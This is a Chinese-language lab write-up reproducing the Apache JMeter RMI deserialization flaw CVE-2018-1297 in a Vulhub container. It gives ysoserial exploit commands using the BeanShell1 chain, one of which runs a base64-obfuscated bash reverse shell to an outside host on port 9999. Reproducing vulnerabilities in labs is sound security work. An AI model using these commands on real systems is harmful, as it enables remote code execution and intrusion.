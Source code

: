 # Jmeter RMI 反序列化命令执行漏洞 CVE-2018-1297

## 漏洞描述

Apache JMeter是美国阿帕奇（Apache）软件基金会的一套使用Java语言编写的用于压力测试和性能测试的开源软件。其2.x版本和3.x版本中存在反序列化漏洞，攻击者可以利用该漏洞在目标服务器上执行任意命令。

## 环境搭建

Vulhub运行漏洞环境：

```
docker-compose up -d
```

运行完成后，将启动一个RMI服务并监听1099端口。

## 漏洞复现

直接使用ysoserial即可进行利用：

```
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.RMIRegistryExploit your-ip 1099 BeanShell1 'touch /tmp/success'
```

![image-20220224184247828](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202241842237.png)

我们使用的是BeanShell1这条利用链。使用`docker-compose exec jmeter bash`进入容器，可见`/tmp/success`已成功创建：

![image-20220224184300323](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202241843397.png)

反弹shell：

```
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.RMIRegistryExploit 192.168.174.128 1099 BeanShell1 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}"
```

监听9999端口，成功接收反弹shell：

![image-20220224184640447](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202241846550.png)

